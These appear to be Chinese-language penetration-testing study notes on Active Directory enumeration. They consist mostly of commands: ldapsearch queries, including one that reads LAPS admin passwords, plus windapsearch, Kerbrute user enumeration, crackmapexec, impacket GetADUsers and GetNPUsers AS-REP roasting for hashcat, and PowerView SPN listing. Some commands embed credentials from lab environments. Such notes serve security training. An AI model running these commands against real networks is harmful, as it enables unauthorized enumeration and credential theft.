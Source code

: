 ```
ldapsearch -H ldaps://company.com:636/ -x -s base -b '' "(objectClass=*)" "*" +
```
```
ldapsearch -x -H ldap://192.168.212.122 -D 'hutch\fmcsorley' -w 'CrabSharkJellyfish192' -b "dc=hutch,dc=offsec" "(ms-MCS-AdmPwd=*)"  ms-MCS-AdmPwd
```
- 可以做`|grep description ` 、`|grep sAMAccountName`
- ldapsearch 過濾手法 : 基於尋找特殊的設定
``` bash
cat ldapsearch.out | awk '{print $1}' | sort | uniq -c | sort -nr
```
- windapsearch.py 
[點我下載](https://github.com/ropnop/windapsearch)
```shell-session
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```
```
# Get computers
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --computers
# Get groups
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --groups
# Get users
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --da
# Get Domain Admins
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --da
# Get Privileged Users
python3 windapsearch.py --dc-ip 10.10.10.10 -u john@domain.local -p password --privileged-users
```
### 利用Kerbrute列舉使用者
>利用[Kerberos Pre-Authentication](https://ldapwiki.com/wiki/Wiki.jsp?page=Kerberos%20Pre-Authentication#top)來運作，速度會比較快
```
./kerbrute_linux_amd64 userenum --dc 10.10.207.146 -d THM-AD userlist.txt
```
```shell-session
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```
```
./kerbrute_linux_amd64 userenum --dc 192.168.1.100 -d domain.local names.txt
```
### 透過已知帳號
>利用已經獲得的帳號以及密碼，進去撈其他使用者資料的手法
```shell-session
sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users
```
### 利用Impacket-Get-ADuser
```
impacket-GetADUsers -all -dc-ip 192.168.241.122 hutch.offsec/fmcsorley:CrabSharkJellyfish192
```
- 搭配uername.list也有列舉使用者的功能 
[連結](https://tools.thehacker.recipes/impacket/examples/getnpusers.py)
```
GetNPUsers.py -usersfile users.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'
```
## SPN列舉
>[!NOTE]
>假設一個server是user自己在跑的，那這個server就是user自己的user account defines the context，如果這個server是system自記跑的，那就是Service Account，一般來說，大型的Application會有使用Service Account，比如說Exchange Server、MsSQL，而這些Service Account的identifier就是Service Principal Name
- PowerView
```
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```